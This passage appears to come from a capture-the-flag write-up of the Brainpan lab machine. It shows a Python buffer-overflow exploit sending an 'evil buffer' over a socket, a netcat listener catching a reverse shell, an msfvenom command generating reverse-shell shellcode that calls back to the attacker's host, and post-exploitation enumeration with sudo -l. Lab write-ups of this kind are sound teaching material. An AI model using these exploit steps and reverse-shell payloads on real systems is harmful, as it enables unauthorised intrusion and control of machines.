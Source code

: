```python
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Lets start the `netcat` for listening on the mentioned port and run the exploit.

```
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.17.7.122] from (UNKNOWN) [10.10.127.68] 41162
CMD Version 1.4.1

Z:\home\puck>
```

Yes. we got a shell. our Buffer Overflow exploit worked. Let's modify the exploit for Linux and its IP.

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.7.122 LPORT=1234 EXITFUNC=thread -b "\x00" -f c`

now paste the shell code in `exploit.py` and run the exploit again. we will get a shell.

```console
$ nc -lnvp 1234  
listening on [any] 1234 ...
connect to [10.17.7.122] from (UNKNOWN) [10.10.127.68] 41163
whoami
puck
```

Let's upgrade to better shell with python and continue enumerating.
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
puck@brainpan:/home/puck$ id
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
puck@brainpan:/home/puck$ sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```
